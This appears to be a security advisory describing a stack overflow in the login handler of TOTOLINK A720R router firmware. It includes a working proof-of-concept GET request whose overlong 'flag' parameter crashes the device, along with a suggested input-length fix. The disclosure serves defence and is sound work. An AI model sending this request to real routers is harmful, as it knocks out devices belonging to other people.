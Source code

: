 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A720R

Version:A720R_Firmware(V4.1.5cu.470_B20200911)

Type:Stack Overflow

Author:Jiaqian Peng,Huizhao Wang,Zuoguang Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn,wangzuoguang16@mails.ucas.ac.cn



## Vulnerability description

We found an stack overflow vulnerability  in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to crash the server.

**Stack Overflow**

In `lighttpd` binary:

In `Form_Login` function, `flag` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow,so we can control the `flag` to crash the server.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part. For example, the length can be limited to only 2 and must be a number.



## PoC

We set `flag` as **aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa** , then sending GET request such as:

http://192.168.0.1/formLoginAuth.htm?action=login&flag=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

```http
GET /formLoginAuth.htm?action=login&flag=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: SESSION_ID=2:1591953155:2
Upgrade-Insecure-Requests: 1
```



## Result

The target router crashes and cannot provide services correctly and persistently.

